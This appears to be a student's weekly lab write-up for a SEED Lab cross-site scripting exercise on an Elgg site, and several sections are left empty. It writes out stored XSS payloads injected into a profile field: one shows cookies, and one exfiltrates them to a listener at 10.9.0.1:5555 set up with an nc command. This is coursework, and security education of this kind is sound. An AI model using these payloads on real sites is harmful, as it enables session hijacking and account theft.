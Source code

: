 # Work performed during the week #10

## CTF

### Goal
- 

### Challenge 1

- 

### Challenge 2

- 

## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert is ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of only the user can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- 


